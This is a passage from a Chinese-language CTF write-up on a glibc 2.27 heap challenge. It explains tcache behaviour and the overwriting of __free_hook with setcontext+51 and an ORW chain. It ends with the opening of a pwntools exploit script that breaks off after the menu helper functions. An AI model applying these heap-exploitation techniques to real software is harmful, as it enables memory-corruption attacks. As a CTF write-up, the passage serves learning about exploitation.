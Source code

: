    原先的chunk被放入0xf0中，之后就能正常申请到包含free_hook的chunk(这里即使count为0也是能申请到的，因为libc-2.27不是根据count来判断tcache中是否还存在剩余的chunk，而是根据`头指针是否为空`进行判断，源码如下)：

   ![image-20240922214649170](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409222146264.png)

   直到`libc-2.30`的时候，才根据count来判断tcache中是否还有剩余的chunk：

   ![image-20240922214817084](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409222148179.png)

   ![image-20240922214439172](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409222144262.png)

   成功向free_hook中写入setcontext + 51 和 ORW：

   ![image-20240922215050147](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409222150374.png)

4. 这题值涉及到了__libc_realloc函数的使用，什么情况等同于 libc_malloc、libc_free，还没有利用到里面的unlink进行堆块的重叠，里面的堆块重叠和free函数里面的有一定的区别，触发的条件也有区别。

5. 完整的EXP：

   ```py
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   choose = 2
   if choose == 1 :    # 远程
       success("远程")
       p = remote("node4.anna.nssctf.cn",28916)
       libc = ELF('./lib/libc_2.27-3ubuntu1.4_amd64.so')
       # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc-2.27.so')
       # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')
       # elf = ELF("./pwn")
   else :              # 本地
       success("本地")
       p = process("./service")
       libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc-2.27.so')
       debug()
       # libc = ELF('/home/kali/Desktop/source_code/glibc-2.38_lib/lib/libc.so.6')
       # ld = ELF("ld.so") 
       # elf = ELF("./pwn")
   
   def add(size,content):
       p.sendlineafter(b'>>',b'1')
       # p.sendlineafter(b':',str(index).encode())
       p.sendlineafter(b'size',str(size).encode())
       p.sendafter(b'data',content)
       
   def out():
       p.sendlineafter(b'>>',b'3')
   
   # def edit(index, size,content):
   #     p.sendlineafter(b':',b'2')
   #     p.sendlineafter(b':',str(index).encode())
   #     p.sendlineafter(b':',str(size).encode())
   #     p.sendafter(b':',content)
   
   def show():
       p.sendlineafter(b'>>',b'4')
       # p.sendlineafter(b':',str(index).encode())
   
   def free():
   ```